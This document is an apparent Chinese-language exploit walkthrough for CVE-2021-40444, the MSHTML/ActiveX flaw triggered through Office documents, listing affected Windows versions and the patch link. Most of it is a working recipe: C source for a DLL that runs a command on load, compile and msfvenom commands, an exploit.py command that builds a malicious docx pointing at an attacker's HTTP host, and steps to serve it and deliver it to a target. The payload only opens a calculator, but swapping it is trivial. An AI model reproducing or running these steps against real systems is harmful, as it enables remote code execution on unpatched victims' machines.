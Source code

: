 ### CVE-2021-40444

#### 描述

这个漏洞是IE浏览器的漏洞，但是offer相关组件默认使用的是IE浏览器，所以在offer相关组件禁用了ActiveX也一样可以执行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/AMD64    | 1809    |        |          |
| Windows 10          | x86/x64/AMD64    | 1909    |        |          |
| Windows 10          | x86/x64/AMD64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/AMD64    | 20H2    |        |          |
| Windows 10          | x86/x64/AMD64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-40444
```

#### 利用原理

根据之前在野利用样本`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`

可以知道，其实就是利用默认浏览器（IE）加载ActiveX

![image-20210911112944428](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

本质上恶意利用只需要修改样本中的`document.xml.rels`文件中框起来mhtml和x-usc这两段内容该为恶意目标网页，即可达到利用

#### 利用方式

首先需要生成一个恶意的DLL文件，通过msf或者自己编译都行

- 自己编译

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  然后运行命令

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- 通过msf编译

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> 最好使用MSF生成DLL文件！
>
> 还有请看准对应机器，有些Windows 10 版本不存在该问题

安装环境所需要的依赖`sudo apt-get install lcab`，生成 cab用的

接着使用一键化脚本，`test/calc.dll`这个为你生成的哪个dll所在的绝对路径，`http://you_ip`你启动exp这台机器的IP

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

然后启动http服务

```
cd srv ; python3 -m http.server 80
```

接着把生成的恶意docx文件（在`out/`文件夹中），放到目标机器上（Windows 10 2004 x64），即可执行成功

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### 参考项目

- [prcabral](https://github.com/prcabral/CVE-2021-40444)